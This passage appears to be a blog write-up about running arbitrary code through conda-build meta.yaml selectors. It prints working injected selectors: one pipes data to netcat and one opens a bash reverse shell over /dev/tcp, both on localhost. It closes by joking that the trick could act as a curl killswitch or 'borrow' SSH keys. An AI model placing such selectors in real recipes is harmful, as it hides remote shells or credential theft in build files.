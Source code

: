 ## Making it talk to other computers

At this point, you can kinda just run whatever. Installing `netcat`, I used this:

```
skip: True # [exec('''import os; os.system("sh -c 'echo netnya | nc localhost 12345'")''') or True] 
```

In a separate shell, I opened a server:

```
(base) [astrid@lab test]$ nc -l localhost 12345 
```

Performing a build…

```
(base) [astrid@lab test]$ conda build . WARNING: No numpy version specified in conda_build_config.yaml.  Falling back to default numpy value of 1.22 
```

… conda froze! But in the other tab, I got the message.

```
(base) [astrid@lab test]$ nc -l localhost 12345 netnya 
```

I typed `asdfasdf` into the server tab, and got data back in the builder.

```
(base) [astrid@lab test]$ conda build . WARNING: No numpy version specified in conda_build_config.yaml.  Falling back to default numpy value of 1.22 asdfasdf 
```

## Making it spawn a reverse shell

This is, of course, the logical final step. In fact, this selector doesn’t even need netcat.

```
skip: True # [exec('''import os; os.system("bash -c 'bash -i >& /dev/tcp/localhost/12345  0>&1'")''') or True] 
```

## Exploitability?

Honestly, I don’t think that there’s much that’s exploitable about this that isn’t already exploitable. As far as I know, `conda build` doesn’t do containerization or other security measures like that, so any amount of exploitation I can do here is probably already exploitable by the build script.

I mean, I guess I *could* see a potential case where `conda build` has a command that spits out the `meta.yaml` after it has done its jinja and selector postprocessing, but without executing any scripts, and the user would expect that no arbitrary code execution is happening. In practice, I don’t think that’s really common – most people probably just run `conda build`.

However, this is great for recipe developers – this mechanism lets you make your build logic be non-deterministic, and have arbitrarily-complicated logic and I/O! You can do all sorts of things, like don’t build if the user’s name starts with an “a,” combine this with curl and an HTTP server to act as a killswitch for builds, make the metadata evaluation step “borrow” peoples’ SSH keys, and more!
